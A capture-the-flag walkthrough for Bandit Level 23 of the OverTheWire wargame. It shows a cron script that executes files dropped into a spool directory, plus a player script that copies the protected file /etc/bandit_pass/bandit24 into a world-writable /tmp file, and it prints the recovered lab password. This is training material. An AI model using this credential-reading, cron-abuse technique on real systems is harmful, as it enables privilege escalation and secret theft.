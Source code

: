 # Bandit Level 23

Again this is another cronjob challenge so we will navigate to the `/etc/cron.d` directory and look at the `cronjob_bandit24` file

We can again inspect the `.sh` file to give the shellcode:
```sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

here we see that it is running all code in `/var/spool/$bandit24` every minite or so

first of all we need to write our own shellscript
It goes as follows:
```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/thisdirisours/passwd
```

after writing this in our tmp directory with the extension .sh we need to set permissions for the file
We want everone to do everything so we can use the command
> `chmod 777 ourshellcode.sh`

Now we create the file we said to pipe redirect the output of the command to in our shellcode using `touch passwd` which will create our password file

We also need to set the correct permissions on this one also as we need all users to be able to write to it so we use the command:
> `chmod 666 passwd`

allowing all users to read and write to it

Now we just copy our shellscript into `/var/spool/bandit24` and wait

After a certain amount of time you should see our password file now has data in and when opened with the `cat` command we see the password is: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

